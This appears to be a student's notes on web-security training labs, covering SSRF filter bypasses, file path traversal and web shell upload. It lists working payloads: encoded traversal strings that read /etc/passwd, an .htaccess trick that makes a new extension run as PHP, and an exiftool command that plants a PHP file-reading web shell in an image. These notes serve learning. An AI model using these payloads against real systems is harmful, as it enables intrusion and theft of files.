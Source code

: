 # Server-side request forgery (SSRF) attacks

## Lab: SSRF with blacklist-based input filter
The application check the appearence of "admin"(all lowercase), so use "Admin" or something like that.


## Lab: SSRF with filter bypass via open redirection vulnerability

open redirection: `/product/nextProduct?currentProductId=10&path=/product?productId=11`  
Set the path to `http://192.168.0.12:8080/admin`, so `encodeURIComponent("/product/nextProduct?currentProductId=10&path=http://192.168.0.12:8080/admin)`


## Lab: File path traversal, traversal sequences blocked with absolute path bypass

Defense: limit relative path traversal

Bypass: ` /image?filename=/etc/passwd`, absolute patho


## Lab: File path traversal, traversal sequences stripped non-recursively

Defense: strips path traversal sequences, non-recursively

Bypass: `....//....//....//etc/passwd`


## Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

Bypass: double encode path `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd`

## Lab: File path traversal, validation of start of path
Bypass: `filename=/var/www/images/../../../etc/passwd`


## Lab: File path traversal, validation of file extension with null byte bypass
`filename=../../../etc/passwd%00.png`

## Lab: Web shell upload via path traversal

Defense: restrict running of files in **specific** directories.

Bypass:  
1. Change the filename of updated file, add a path component '../'(encoded) `Content-Disposition: form-data; name="avatar"; filename="..%2Ftest.php"`
2. Visit the correct file path.

## Lab: Web shell upload via extension blacklist bypass

Defense: Blacklist possible file types, like .PHP

Bypass: Add a server configuration file to extent execuable file type.  
1. Create a file called `.htaccess`, content: `AddType application/x-httpd-php .hello`
2. Change the php file sufix to `.hello` and upload.
3. Request to the `.hello` file.

## Lab: Web shell upload via obfuscated file extension

Defense: Whitelist jpg and png

Bypass: `filename="test.php%00.jpg"`



## Lab: Remote code execution via polyglot web shell upload

Defense: Check the file content

Bypass: Forge a mixed, half-real polyglot file:
`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

